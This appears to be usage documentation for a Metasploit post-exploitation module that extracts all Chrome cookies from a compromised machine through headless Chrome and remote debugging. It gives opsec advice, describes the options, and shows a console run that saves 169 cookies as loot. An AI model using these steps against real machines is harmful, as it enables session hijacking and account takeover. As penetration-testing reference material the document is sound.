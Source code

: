 ## Gather Chrome Cookies

Reads all cookies from the Default Chrome Profile on the target machine. Uses [Headless Chrome](https://developers.google.com/web/updates/2017/04/headless-chrome) and [Chrome's Remote Debugging](https://chromedevtools.github.io/devtools-protocol/).

## Opsec

### Disk writes
This writes randomly-named files to disk temporarily. You may want to consider the tradeoff between getting the user's Chrome cookies and the noisiness of writing to disk.

The module writes a random 10-15 character file containing HTML to a directory you can specify via `WRITABLE_DIR`.

### Running processes
On non-Windows non-meterpreter sessions, a headless Chrome process will be left running after module execution is completed. You can still find and kill this process manually after the module execution is completed.

## Vulnerable Application

This module works on Chrome 59 or later on all operating systems. This module has been tested on Windows, Linux, and OSX.

Chrome does not need to be running on the target machine for this module to work.

## Verification Steps

  1. Obtain a session on the target machine
  2. Do: ```use post/multi/gather/chrome_cookies```
  3. Do: ```set SESSION <your session ID>```
  4. Do: ```run```
  5. The current user's Chrome cookies will be stored as loot

## Options

### CHROME_BINARY_PATH

  The path to the user's Chrome binary. On Linux this defaults to searching for `google-chrome` in `$PATH`. On macOS, this defaults to `/Applications/Google Chrome.app/Contents/MacOS/Google Chrome'`. If the module doesn't find any cookies, it may be that a different Chrome binary to the one the user normally uses is being run. In that case, you can change the Chrome binary executed with this option.

### WRITABLE_DIR

  Directory used to write temporary files.

  Two files are written, with random 10-15 character alphanumeric filenames. One file contains an html file for Chrome and the other is where the cookies are saved. Both files are deleted during cleanup.

### REMOTE_DEBUGGING_PORT

  Port to tell Chrome to expose Remote Debugging on. Default is the normal remote debugging port, `9222`.

## Scenarios

### Windows

  Suppose you've got a session on the target machine.

  To extract the target user's Chrome cookies

```
msf > use post/multi/gather/chrome_cookies
msf post(multi/gather/chrome_cookies) > options

Module options (post/multi/gather/chrome_cookies):

   Name                   Current Setting  Required  Description
   ----                   ---------------  --------  -----------
   CHROME_BINARY_PATH                      no        The path to the user's Chrome binary (leave blank to use the default for the OS)
   REMOTE_DEBUGGING_PORT  9222             no        Port on target machine to use for remote debugging protocol
   SESSION                1                yes       The session to run this module on.
   WRITEABLE_DIR                           no        Where to write the html used to steal cookies temporarily, and the cookies. Leave blank to use the default for the OS (/tmp or AppData\Local\Temp)

msf post(multi/gather/chrome_cookies) > set session <your session id>
session => <your session id>

msf post(multi/gather/chrome_cookies) > run

[*] Determining session platform
[*] Platform: windows
[*] Type: meterpreter
[*] Activated Chrome's Remote Debugging (pid: 9452) via "\Program Files (x86)\Google\Chrome\Application\chrome.exe" --window-position=0,0 --enable-logging --v=1 --disable-translate --disable-extensions --disable-background-networking --safebrowsing-disable-auto-update --disable-sync --metrics-recording-only --disable-default-apps --mute-audio --no-first-run --disable-web-security --disable-plugins --disable-gpu  --user-data-dir="\Users\msfdev\AppData\Local\Google\Chrome\User Data"  --remote-debugging-port=9222  \Users\msfdev\AppData\Local\Temp\YaW8HKZdkk2s85D.html
[+] Found Match
[+] 169 Chrome Cookies stored in /home/msfdev/.msf4/loot/20190108065112_default_172.22.222.200_chrome.gather.co_082863.txt
[*] Removing file \Users\msfdev\AppData\Local\Temp\YaW8HKZdkk2s85D.html
[*] Removing file \Users\msfdev\AppData\Local\Google\Chrome\User Data\chrome_debug.log
[*] Post module execution completed
msf post(multi/gather/chrome_cookies) >

```

## Future features

### Profiles
This module only extracts cookies from the default Chrome profile. The target may have multiple, and you may which to extract cookies from all of them. This would require enumerating and extracting the profiles by name. Example code to extract cookies from a non-default Chrome profile can be found at https://github.com/defaultnamehere/cookie_crimes.

## See also
See https://github.com/defaultnamehere/cookie_crimes for more information and manual instructions for Windows.

See https://mango.pdf.zone/stealing-chrome-cookies-without-a-password for the blog post in which this technique was first published.
